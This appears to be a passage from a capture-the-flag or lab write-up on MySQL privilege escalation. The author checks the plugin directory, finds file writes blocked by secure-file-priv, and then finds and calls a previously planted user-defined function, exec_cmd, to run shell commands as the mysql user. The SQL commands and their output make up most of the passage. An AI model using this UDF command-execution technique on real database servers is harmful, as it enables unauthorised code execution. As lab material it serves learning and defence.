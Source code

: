 For this type of exploit to work, we have to create a malicious library file with our user defined function to execute shell commands and write it on the **plugin directory**.

### Listing plugin directory
```sql
mysql> 
select @@plugin_dir;
select @@plugin_dir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)
```
### Checking if we can write on plugin_dir
```sql
mysql> select * from mysql.user into outfile '/usr/lib/mysql/plugin/user.log';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
The mysql daemon was started with **--secure-file-priv** which means we can not write on that folder.
Then I thought as the attacker was already on the box, he/she might have created a UDF to execute shell commands as user mysql.

### Listing functions 
```sql
mysql> 
select * from mysql.func;
+----------+-----+-------------+----------+
| name     | ret | dl          | type     |
+----------+-----+-------------+----------+
| exec_cmd |   0 | libmysql.so | function |
+----------+-----+-------------+----------+
1 row in set (0.00 sec)
```
And there was a function called **exec_cmd** on the dl file **libmysql.so**.

### Getting shell as mysql
```sql
mysql> 
select exec_cmd('whoami');
`+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| mysql
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
```